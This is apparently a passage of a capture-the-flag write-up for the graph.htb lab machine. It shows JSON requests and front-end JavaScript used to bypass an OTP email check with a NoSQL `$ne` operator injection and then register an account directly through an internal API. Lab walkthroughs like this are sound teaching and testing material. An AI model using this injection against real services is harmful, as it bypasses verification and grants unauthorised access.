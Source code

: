 When registering a new user, the server asks for a OTP. This is done by POSTING
to `/api/verify` with a query like:

```json
{
    "email": "apehex@graph.htb",
    "code": "1234"
}
```

This query is injectable:

```json
{
    "email": "apehex@graph.htb",
    "code": {"$ne":"1234"}
}
```

So `internal.graph.htb/register` queries `internal-api.graph.htb/api/code` and then `internal-api.graph.htb/api/verify`.

But once the email is verified, we still have to fill in the user fields. Since I queried the API directly through BurpSuite, the front-end didn't update.

The webpage links to length JavaScript files... Looking for "register", "code" and the like I found:

```javascript
registerUser(n, r, i) {
    this.http.post("http://internal-api.graph.htb/api/register", {
        email: this.email,
        password: r,
        confirmPassword: i,
        username: n
    }).subscribe(o=>{
        "Account Created Please Login!" === o.result && window.location.replace(""),
        this.result = o.result,
        setTimeout(()=>{
            this.result = ""
        }
        , 5e3)
    }
    )
}
```

The script steps through the whole registration process. So the next step is to query `internal-api.graph.htb/api/register`:

```json
{
    "email": "apehex@graph.htb",
    "password": "heyhey",
    "confirmPassword": "heyhey",
    "username": "apehex"
}
```
